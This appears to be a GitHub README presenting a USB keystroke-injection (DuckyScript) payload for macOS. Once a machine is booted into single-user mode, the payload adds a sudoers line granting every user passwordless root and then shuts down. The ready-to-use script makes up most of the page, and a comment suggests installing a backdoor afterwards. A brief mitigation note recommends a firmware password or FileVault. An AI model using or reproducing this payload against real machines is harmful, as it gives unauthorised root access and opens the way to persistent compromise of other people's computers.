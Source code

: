 **Author: Jesse Wallace ([@c0deous](https://twitter.com/c0deous))**
**[c0deo.us](https://c0deo.us/)**

This script adds a line into /etc/sudoers that enables sudo for ALL users **without requiring a password.**  Only requirement is a reboot into [single user mode](https://support.apple.com/en-us/HT201573).

**Mitigation**

Setup a [firmware password](https://support.apple.com/en-us/HT204455) or enable [FileVault](https://support.apple.com/en-us/HT204837) disk encryption.

This method was tested on macOS 10.7.5, 10.11, 10.12 but should work for all versions. (?)

```
REM MacOS AllSudo
REM Enables Sudo access for all users without a password
REM First boot the machine into single user mode - https://support.apple.com/en-us/HT201573
REM (You could probably script single user mode but I couldn't be bothered to play with the timings)
REM By Jesse Wallace (@c0deous)
REM https://c0deo.us/
DELAY 1000
STRING mount -uw / && chmod 755 /etc/sudoers && echo 'ALL    ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers && chmod 440 /etc/sudoers && shutdown -h now
ENTER
REM Now would be a great time to install a backdoor.  Ez root ;3
REM TODO Use visudo for edits (unconfirmed if working)